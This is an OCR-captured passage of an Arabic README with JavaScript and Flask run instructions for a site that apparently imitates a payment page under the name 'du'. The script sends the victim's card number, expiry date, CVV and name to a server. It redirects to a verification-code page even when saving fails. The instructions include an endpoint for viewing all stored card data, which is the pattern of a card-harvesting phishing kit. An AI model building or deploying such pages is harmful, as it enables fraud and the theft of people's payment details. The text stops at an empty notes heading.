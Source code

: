 ```javascript
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({
            card_holder: cardHolder,
            card_number: cardNumber,
            expiry_date: expiryDate,
            cvv: cvv,
            transaction_number: txnNumber
        }),
    })
    .then(response => response.json())
    .then(data => {
        console.log('تم حفظ بيانات البطاقة بنجاح:', data);
        // الانتقال إلى الصفحة التالية
        window.location.href = 'verification-code.html';
    })
    .catch((error) => {
        console.error('خطأ في حفظ بيانات البطاقة:', error);
        // الانتقال إلى الصفحة التالية حتى في حالة الخطأ
        window.location.href = 'verification-code.html';
    });
});
```

## كيفية تشغيل الموقع مع قاعدة البيانات

1. تأكد من تثبيت Python وFlask:
   ```
   pip install flask
   ```

2. انتقل إلى مجلد الموقع:
   ```
   cd /path/to/du_site_with_db
   ```

3. قم بتشغيل الخادم:
   ```
   python app.py
   ```

4. افتح المتصفح وانتقل إلى:
   ```
   http://localhost:5000
   ```

5. لعرض جميع البيانات المخزنة، انتقل إلى:
   ```
   http://localhost:5000/api/get-all-data
   ```

## ملاحظات هامة
